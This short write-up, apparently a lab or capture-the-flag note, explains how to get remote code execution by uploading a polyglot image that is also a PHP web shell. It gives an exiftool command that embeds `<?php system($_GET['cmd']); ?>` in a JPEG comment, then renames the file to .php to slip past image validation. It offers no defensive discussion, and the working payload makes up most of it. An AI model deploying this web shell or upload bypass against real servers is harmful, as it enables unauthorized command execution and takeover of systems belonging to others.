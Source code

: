 # Remote code execution via polyglot web shell upload

The platform allow's `.php` uploads but validates if it's an image. We can however embed a php script in the comment of the image which will run our malicious code.
We can do that using this command:
`exiftool -Comment="<?php system(\$_GET['cmd']); ?>" image.jpg`
So now we can change the file extension to php - the server will validate that it's an image, but the php interpreter will run it.